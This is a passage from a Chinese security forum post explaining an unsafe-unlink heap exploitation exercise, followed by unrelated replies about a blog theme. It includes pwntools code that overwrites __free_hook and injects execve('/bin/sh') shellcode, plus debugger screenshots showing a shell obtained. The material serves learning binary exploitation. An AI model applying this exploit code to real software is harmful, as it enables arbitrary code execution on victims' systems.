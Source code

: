 之后把`__free_hook`覆盖成堆里面的地址

```
edit(chunk_A, p64(fd) + p64(bk) + shellcode + p8(0)*(0x70-len(shellcode)) + p64(0x90)*2

```

修改一下要 edit 的内容

shellcode 的话由于`bk+0x10`会被写入为`fd`的值，shellcode 中需要空出来一小段区域，这个可以通过汇编加一个小 jmp 实现

```
shellcode = asm("jmp shellcode;"+ "nop;"*0x20+ shellcraft.execve("/bin/sh"))

```

这里的 nop 至少要把`bk+0x10`这里的 8 个字节都空出来，最小值的话应该是`0x18-len("jmp shellcode")`

`jmp shellcode`汇编代码是两个字节，所以这里至少要是 0x16

![](https://static.hack1s.fun/images/2021/03/31/image-20210401101944829.png)

可以看到图中红框是 shellcode 的内容，绿框是指向 shellcode 地址的一个指针，即 bk

下面执行`free(b)`

![](https://static.hack1s.fun/images/2021/03/31/image-20210401102202252.png)

看到堆中 a 和 b 都已经被释放掉了，并且`bk+0x10`的位置已经变成了`fd`即`__free_hook`的值

使用 u 可以将`__free_hook`中的内容当作 code 打印出来，可以看到已经是我们 shellcode 的内容了

![](https://static.hack1s.fun/images/2021/03/31/image-20210401102941350.png)

这时继续执行，再调用一次 free 就会执行我们的 shellcode

最终返回了一个 shell

![](https://static.hack1s.fun/images/2021/03/31/image-20210401102517211.png)

![](https://static.52pojie.cn/static/image/filetype/zip.gif)

[unsafe_unlink.zip](forum.php?mod=attachment&aid=MjI3ODk5MnwwODA0YjMwYXwxNjIxMzAyOTc2fDIxMzQzMXwxNDMwMzQ0)

9.44 KB, 下载次数: 4, 下载积分: 吾爱币 -1 CB![](https://avatar.52pojie.cn/data/avatar/001/51/39/58_avatar_middle.jpg)

> [呆毛王与咖喱棒 发表于 2021-4-30 12:29](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38318593&ptid=1430344)  
> 就随便找的一个，主题不太重要，主要是多写 &#129315;

想要你那种的 我自己的用的 emlog 很简陋 求你了大佬 ![](https://avatar.52pojie.cn/data/avatar/001/57/34/12_avatar_middle.jpg) UNKNNOW

> [UNKNNOW 发表于 2021-4-30 08:45](https://www.52pojie.cn/forum.php?mod=redirect&goto=findpost&pid=38312058&ptid=1430344)  
> 有人看有人看 大佬你博客用的是 wordpress 的哪个主题呀
